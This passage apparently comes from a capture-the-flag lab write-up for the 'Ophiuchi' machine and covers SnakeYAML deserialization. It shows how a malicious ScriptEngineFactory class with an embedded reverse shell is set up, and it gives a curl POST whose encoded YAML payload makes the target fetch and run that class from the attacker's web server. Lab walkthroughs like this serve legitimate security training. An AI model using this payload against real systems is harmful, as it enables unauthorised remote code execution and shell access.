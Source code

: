 **setup**
```bash
❯ tree
.
├── Exploit.class
├── Exploit.java
└── META-INF
    └── services
        └── javax.script.ScriptEngineFactory
```

`javax.script.ScriptEngineFactory` invokes `Exploit.class` compiled from [`Exploit.java`](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java) which use ScriptEngine interface methods to execute arbitrary commands.

before compiling `Exploit.java` put reverse shell in the `Exploit` function and than compile
```bash
javac Exploit.java
```

![](/assets/img/posts/ophiuchi/put-rev-shell.png)

and `javax.script.ScriptEngineFactory` contains compiled class path.
```bash
❯ cat META-INF/services/javax.script.ScriptEngineFactory
Exploit
```

**Start web server and execute SnakeYAML Marshaling payload**
```bash
curl -s -X POST \
  --data-binary $'data=%21%21javax.script.ScriptEngineManager+%5B%0D%0A++%21%21java.net.URLClassLoader+%5B%5B%0D%0A++++%21%21java.net.URL+%5B%22http%3A%2F%2F10.10.15.71%3A8000%2F%22%5D%0D%0A++%5D%5D%0D%0A%5D' \
  $'http://10.10.10.227:8080/Servlet'
```

![](/assets/img/posts/ophiuchi/web-shell.png)

# Privesc
